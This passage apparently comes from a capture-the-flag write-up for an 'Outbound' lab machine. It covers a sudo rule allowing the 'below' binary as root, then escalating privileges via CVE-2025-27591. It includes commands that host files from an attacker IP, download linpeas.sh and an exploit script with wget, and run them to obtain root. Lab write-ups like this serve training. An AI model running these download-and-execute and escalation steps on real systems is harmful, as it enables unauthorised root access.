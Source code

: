 ```bash

User jacob may run the following commands on outbound:
    (ALL : ALL) NOPASSWD: /usr/bin/below *, !/usr/bin/below --config*, !/usr/bin/below --debug*, !/usr/bin/below -d*

ls /home -al
total 20
drwxr-xr-x  5 root  root  4096 Jul  8 20:14 .
drwxr-xr-x 23 root  root  4096 Jul  8 20:14 ..
drwxr-x---  5 jacob jacob 4096 Sep 26 11:02 jacob
drwxr-x---  2 mel   mel   4096 Jul  8 20:14 mel
drwxr-x---  2 tyler tyler 4096 Jul  8 20:14 tyler
```
- Run Linpeas
```bash
python3 -m http.server 8080 #Host
```

```bash
cd /dev/shm
wget http://10.10.14.112:8080/linpeas.sh
```

`jacob` can run the binary **below** as root.
## Privilege Escalation vector -CVE-2025-27591
**Research on “below”**
Googling led to this repo:  
👉 [Linux-Privilege-Escalation-CVE-2025–27591](https://github.com/dollarboysushil/Linux-Privilege-Escalation-CVE-2025-27591)
It describes a **privilege escalation vulnerability in** `**below**`.
```bash
wget http://10.10.14.112:8080/dbs_exploit.py
python3 dbs_exploit.py
```
![](<./attachments/Outbound-21.png>)
- root access, the flag located in `/root/root.txt`
---
# 🏁 Conclusion
